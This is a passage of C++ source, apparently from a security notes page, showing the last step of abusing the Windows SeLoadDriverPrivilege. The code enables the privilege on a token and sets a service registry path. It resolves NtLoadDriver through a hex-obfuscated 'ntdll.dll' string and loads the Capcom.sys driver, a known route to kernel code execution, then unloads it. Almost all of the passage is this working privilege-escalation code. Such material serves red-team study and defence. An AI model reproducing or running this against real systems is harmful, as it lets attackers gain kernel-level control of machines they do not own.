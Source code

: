 ```cpp
	if (bEnablePrivilege) {
		tp.Privileges[0].Attributes = SE_PRIVILEGE_ENABLED;
	}
	
	// Enable the privilege or disable all privileges.
	if (!AdjustTokenPrivileges(
		hToken,
		FALSE,
		&tp,
		sizeof(TOKEN_PRIVILEGES),
		(PTOKEN_PRIVILEGES)NULL,
		(PDWORD)NULL))
	{
		printf("AdjustTokenPrivileges error: %x", GetLastError());
		return FALSE;
	}

	//system("cmd");
	// below code for loading drivers is taken from https://github.com/killswitch-GUI/HotLoad-Driver/blob/master/NtLoadDriver/RDI/dll/NtLoadDriver.h
	std::cout << "[+] Set Registry Keys" << std::endl;
	NTSTATUS st1;
	UNICODE_STRING pPath;
	UNICODE_STRING pPathReg;
	PCWSTR pPathSource = L"C:\\experiments\\privileges\\Capcom.sys";
	PCWSTR pPathSourceReg = L"\\registry\\machine\\System\\CurrentControlSet\\Services\\SomeService";
	const char NTDLL[] = { 0x6e, 0x74, 0x64, 0x6c, 0x6c, 0x2e, 0x64, 0x6c, 0x6c, 0x00 };
	HMODULE hObsolete = GetModuleHandleA(NTDLL);
	*(FARPROC *)&RtlInitUnicodeString = GetProcAddress(hObsolete, "RtlInitUnicodeString");
	*(FARPROC *)&NtLoadDriver = GetProcAddress(hObsolete, "NtLoadDriver");
	*(FARPROC *)&NtUnloadDriver = GetProcAddress(hObsolete, "NtUnloadDriver");

	RtlInitUnicodeString(&pPath, pPathSource);
	RtlInitUnicodeString(&pPathReg, pPathSourceReg);
	st1 = NtLoadDriver(&pPathReg);
	std::cout << "[+] value of st1: " << st1 << "\n";
	if (st1 == ERROR_SUCCESS) {
		std::cout << "[+] Driver Loaded as Kernel..\n";
		std::cout << "[+] Press [ENTER] to unload driver\n";
	}

	getchar();
	st1 = NtUnloadDriver(&pPathReg);
	if (st1 == ERROR_SUCCESS) {
		std::cout << "[+] Driver unloaded from Kernel..\n";
		std::cout << "[+] Press [ENTER] to exit\n";
		getchar();
	}

    return 0;
}
```
{% endcode-tabs-item %}
{% endcode-tabs %}
